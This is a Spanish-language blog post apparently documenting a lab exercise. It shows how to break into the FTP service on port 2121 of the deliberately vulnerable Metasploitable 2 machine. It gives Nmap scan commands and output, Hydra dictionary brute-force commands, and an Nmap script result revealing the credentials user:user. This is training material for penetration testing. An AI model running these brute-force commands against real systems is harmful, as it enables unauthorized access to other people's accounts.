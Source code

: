 ```yaml
---
layout: post
title: Metasploitable 2, el otro FTP del puerto 2121
category: Hacking
comments: true
description: En otros articulos hable del FTP del puerto 21, pero Nmap nos dice que hay otro FTP puesto en el puerto 2121, en este articulo hablare de como poder vulnerar este servicio, y no sera con un exploit manual o mediante metasploit, sino con fuerza bruta.

tags:       
    - hacker
    - metasploitable2
    - metasploit
    - nmap
    - hydra
---
```


En otros articulos hable del FTP del puerto 21, pero Nmap nos dice que hay otro FTP puesto en el puerto 2121, en este articulo hablare de como poder vulnerar este servicio, y no sera con un exploit manual o mediante metasploit, sino con fuerza bruta.

Para descargarte [Metasploitable 2](https://sourceforge.net/projects/metasploitable/files/Metasploitable2/){:target="_blank"}

## Los puertos de Metasploitable 2

Como recordaras al explorar la maquina de Metasploitable 2 con Nmap nos daba el siguiente resultado:

{% highlight sql linenos %}

Nmap scan report for 192.168.1.41
Host is up (0.00037s latency).
Not shown: 65501 closed ports
PORT      STATE    SERVICE
21/tcp    open     ftp
22/tcp    open     ssh
23/tcp    open     telnet
25/tcp    open     smtp
53/tcp    open     domain
80/tcp    open     http
111/tcp   open     rpcbind
139/tcp   open     netbios-ssn
445/tcp   open     microsoft-ds
512/tcp   open     exec
513/tcp   open     login
514/tcp   open     shell
1099/tcp  open     rmiregistry
1524/tcp  open     ingreslock
2049/tcp  open     nfs
2121/tcp  open     ccproxy-ftp
3306/tcp  open     mysql
3632/tcp  open     distccd
4239/tcp  filtered vrml-multi-use
5432/tcp  open     postgresql
5900/tcp  open     vnc
6000/tcp  open     X11
6667/tcp  open     irc
6697/tcp  open     ircs-u
8009/tcp  open     ajp13
8180/tcp  open     unknown
8787/tcp  open     msgsrvr
27242/tcp filtered unknown
34652/tcp open     unknown
35474/tcp filtered unknown
41271/tcp open     unknown
41542/tcp open     unknown
42726/tcp open     unknown
54399/tcp filtered unknown
MAC Address: 00:0C:29:D3:5F:CD (VMware)

Nmap done: 1 IP address (1 host up) scanned in 185.82 seconds

{% endhighlight %}

## El puerto 2121

Nmap nos pone que en el puerto 2121 hay un servicio de FTP llamado ccproxy-ftp, pero como necesitamos más le pedimos, más informacion con -sV

{% highlight sql linenos %}

nmap -sT -p 2121  -sV  -T5 192.168.1.39

{% endhighlight %}

Y nos devuelve:

{% highlight sql linenos %}

Starting Nmap 7.50 ( https://nmap.org ) at 2017-08-13 13:36 CEST
Nmap scan report for 192.168.1.39
Host is up (0.00060s latency).

PORT     STATE SERVICE VERSION
2121/tcp open  ftp     ProFTPD 1.3.1
MAC Address: 00:0C:29:D3:5F:CD (VMware)
Service Info: OS: Unix

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 0.79 seconds

{% endhighlight %}

Nmap nos devuelve que este server es un ProFTPD 1.3.1, si buscamos algun exploit para esta versión, no encontramos ninguno, ni en Metasploit ni en searchsploit, por lo que tendriamos que ver otras opciones.

## Ataque por diccionario

La opción principal seria aqui, haber sacado usuarios del sistema durante la fase de enumeración y con ello poder hacer un ataque de diccionario, para ello usaremos la aplicación Hydra, pre-instalada en Kali Linux.

Para hacer este ataque tenemos tres opciones:

* No saber los usuarios

Esta es la peor, ya que nos toca recorrer dos diccionarios y combinarlos entre ellos, es la opción que más tarda. Recueda Kali tiene diccionarios ya en el sistema, pero eso no te impide crear tu otros diccionarios o descargarte nuevos.

<figure>
<img alt="Hydra funcionando a pleno rendimiento" class="img img-responsive" src="/resources/images/hydra.png"/>
<figcaption>
Hydra funcionando a pleno rendimiento
</figcaption>
</figure>

{% highlight sql linenos %}

hydra -L /usr/share/metasploit-framework/data/wordlists/unix_users.txt -P /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt ftp://192.168.1.39:2121


{% endhighlight %}

* Saber el usuario, pero no el password

Puede que durante nuestra fase de enumeración, hayamos conseguido nombres de usuario, con ello podemos probar hydra, solo combinando con passwords, es una opción rapida.

{% highlight sql linenos %}

hydra -l user -P /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt ftp://192.168.1.39:2121

{% endhighlight %}

* Combinación de usuarios y passwords por defecto

La mejor opción es tener una lista de usuarios y passwords ya hecha e Hydra probara esas combinaciones por si alguna es valida. En este caso en Hydra tenemos que usar la opción -C usando un fichero con usuarios y passwords separados con : ejemplo: usuario:password

{% highlight sql linenos %}

hydra -C passwords.txt ftp://192.168.1.39:2121

{% endhighlight %}

## Y al final NMAP gana...

Y al final un script simple de Nmap se lleva el gato al agua, simplemente usando un script de Nmap, tenemos ya un usuario de FTP que poder entrar.
Este es el comando que he usado, pidiendo que se ejecuten todos los scripts relacionados con FTP.

{% highlight sql linenos %}

nmap -sT -sV -p 2121 --script ftp* -T5 192.168.1.39

{% endhighlight %}

El resultado

{% highlight sql linenos %}

Nmap scan report for 192.168.1.39
Host is up (0.00025s latency).

PORT     STATE SERVICE VERSION
2121/tcp open  ftp     ProFTPD 1.3.1
| ftp-brute: 
|   Accounts: 
|     user:user - Valid credentials
|_  Statistics: Performed 11296 guesses in 182 seconds, average tps: 75.9
MAC Address: 00:0C:29:D3:5F:CD (VMware)
Service Info: OS: Unix

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 183.38 seconds


{% endhighlight %}

Es decir, el usuario es user, y el password es user... Ya podemos entrar y tener acceso a un FTP.





